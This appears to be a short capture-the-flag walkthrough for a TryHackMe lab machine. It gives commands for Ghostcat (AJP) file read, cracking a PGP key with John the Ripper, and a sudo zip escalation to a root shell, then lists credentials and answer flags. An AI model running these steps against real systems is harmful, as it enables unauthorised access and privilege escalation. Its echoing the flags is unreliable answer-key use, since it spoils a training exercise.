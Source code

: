 # Tomghost

machine ip : `10.10.184.14`

AJP Proxy enumeration
```
nmap -sV --script ajp-auth,ajp-headers,ajp-methods,ajp-request -n -p 8009 10.10.184.14 
```

download the exploit from github
```
https://github.com/00theway/Ghostcat-CNVD-2020-10487.git
```
run the exploit
```
python3 Ghostcat-CNVD-2020-10487/ajpShooter.py http://10.10.184.14:8080 8009 /WEB-INF/web.xml read
```
found credentials
> skyfuck:8730281lkjlkjdqlksalks

cracking the pgp private key password
```
gpg2john tryhackme.asc > hash.txt
john --wordlist=/usr/share/wordlist/rockyou.txt hash.txt
```
decrypting the pgp file
```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```
login as merlin
```
su merlin
```
we can see the root permitted binary 
```
sudo -l
```
exploit for zip binary
```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

| Flag | Value |
|------|-------|
| User.txt | THM{GhostCat_1s_so_cr4sy} |
| Root.txt | THM{Z1P_1S_FAKE} |
